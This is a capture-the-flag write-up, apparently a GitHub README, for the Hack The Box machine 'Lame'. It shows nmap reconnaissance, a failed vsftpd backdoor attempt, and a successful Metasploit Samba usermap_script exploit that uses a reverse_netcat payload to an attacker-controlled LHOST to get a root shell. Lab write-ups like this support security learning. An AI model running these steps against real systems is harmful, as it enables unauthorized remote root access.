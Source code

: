 # Lame - Retired Machine
**About Lame**\
Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.
## Step 1 - Nmap Scan
Just performed basic nmap scan:\
`nmap -sC -SV <Target-IP>`\
where:\
`-sC` - Scan with default NSE scripts. Considered useful for discovery and safe.\
`-sV` - Attempts to determine the version of the service running on port.

The Output it produced is in the file - [Nmap output file](https://github.com/Nithin-vs/HTB-Labs-Docs/blob/main/Lame/Nmap.txt)
## Step 2 - Exploiting the FTP 
In Nmap scan, FTP was open and it was accessible via the `Anonymous` login, but it doesn't work.
After all i looked about the version of ftp which is used, `VsFTPd 2.3.4` and searched for vulnerability.\
Luckly there is a vulnerability in the respected version of the FTP known as **VSFTPD v2.3.4 Backdoor Command Execution** and there is open exploit in [rapid7](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).\
So, executed metasploit exploit using the `exploit/unix/ftp/vsftpd_234_backdoor` payload, Unfortunatly it **FAILED**.
## Step 3 - Exploiting the SMB 
In Nmap scan, SMB was open and without wasting time reviewed the version of it `smbd 3.0.20-Debian` and searched for any vulnerability on the particular version of SMB.\
Yes, it is there **Samba "username map script" Command Execution**. 
> In old versions of Samba, there is a feature that maps fake usernames to real ones using a script.
But this mapping process is broken, if you give Samba a specially crafted username, it will run system commands instead of just mapping names.

Again in [rapid7](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/) found the metasploit exploit. Then, using the `exploit/multi/samba/usermap_script` exploit and with necessary settings;
```
set RHOSTS <Target-IP>
set PAYLOAD payload/cmd/unix/reverse_netcat
set LHOST <tun0-IP>
run
```
Successfully gained the shell. using `whoami` found that im as root.
## Step 4 - Collecting the Flags
As final steps, the shell is dumb and with the command `python -c 'import pty; pty.spawn("/bin/bash")'` the shell is TTY.\
HTB asks for user makis, root flags which can be easily found by searching the directories.\
Finally Pwned the machine.

![Lame Machine Pawned](https://github.com/Nithin-vs/HTB-Labs-Docs/blob/main/Lame/Acheived.png)
